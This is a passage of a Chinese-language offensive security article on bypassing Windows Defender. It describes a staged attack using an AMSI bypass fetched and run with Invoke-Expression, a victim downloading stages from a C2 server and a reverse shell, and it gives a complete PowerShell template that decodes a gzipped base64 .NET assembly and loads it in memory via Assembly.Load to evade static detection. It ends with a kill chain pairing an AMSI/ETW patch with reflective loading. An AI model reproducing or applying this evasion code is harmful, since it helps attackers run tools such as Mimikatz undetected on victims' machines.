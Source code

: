   

这里有几件事要注意。首先，ref.txt 是一个简单的 PowerShell AMSI 绕过，它允许我们为当前的 PowerShell 进程修补内存中
AMSI 扫描。此外，在这种情况下，PowerShell 脚本的扩展名无关紧要，因为它们的内容将作为文本简单地下载并使用 Invoke-
Expression（IEX 的别名）调用。  
然后我们可以执行完整的 PoC，如下所示：  
在我们的受害者中执行Stage 0  
![]()  
受害者从我们的 C2 下载stages  
![](https://gitee.com/fuli009/images/raw/master/public/20230621095503.png)  
在我们的攻击者服务器中获取反向 shell。  
![](https://gitee.com/fuli009/images/raw/master/public/20230621095505.png)  
  

![](https://gitee.com/fuli009/images/raw/master/public/20230621095455.png)

 **09  反射加载**

  
您可能还记得第一部分《[Bypass Windows Defender的十种方式
0x1](http://mp.weixin.qq.com/s?__biz=MzU2NzY5MjAwNQ==&mid=2247485286&idx=1&sn=9f8e1399b0af14b2d3231674df69690a&chksm=fc9818eccbef91fa85d06066e7665e0b354d09c37c115bd01f540a52a365e4165270d634e660&scene=21#wechat_redirect)》，我们在修补内存中的
AMSI 后执行了 Mimikatz，以证明 绕过 Defender 的演示。这是因为 .NET 公开了
System.Reflection.Assembly API，我们可以使用它在内存中反射加载和执行 .NET
程序集（定义为“表示一个程序集，它是公共语言运行时应用程序的可重用、可版本控制和自描述构建块。”）。  
这当然对于攻击目的非常有用，因为 PowerShell 使用 .NET，我们可以在脚本中使用它在内存中加载整个二进制文件，以绕过 Windows
Defender 擅长的静态分析。  
脚本的一般结构如下：  
反射加载模板  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function Invoke-YourTool{    $a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String("yourbase64stringhere"))    $decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress)    $output = New-Object System.IO.MemoryStream    $decompressed.CopyTo( $output )    [byte[]] $byteOutArray = $output.ToArray()    $RAS = [System.Reflection.Assembly]::Load($byteOutArray)  
        $OldConsoleOut = [Console]::Out    $StringWriter = New-Object IO.StringWriter    [Console]::SetOut($StringWriter)  
        [ClassName.Program]::main([string[]]$args)  
        [Console]::SetOut($OldConsoleOut)    $Results = $StringWriter.ToString()    $Results  }
    
    
      
    

Gzip 仅用于尝试隐藏真正的二进制文件，因此有时它可能无需进一步的绕过方法即可工作，但最重要的一行是从
System.Reflection.Assembly .NET 类调用 Load
函数以将二进制文件加载到内存中。之后，我们可以简单地用“[ClassName.Program]::main([string[]]$args)”调用它的主函数  
因此，我们可以执行以下杀伤链来执行我们想要的任何二进制文件：  

  * AMSI/ETW 补丁。
  * 反射加载并执行程序集。
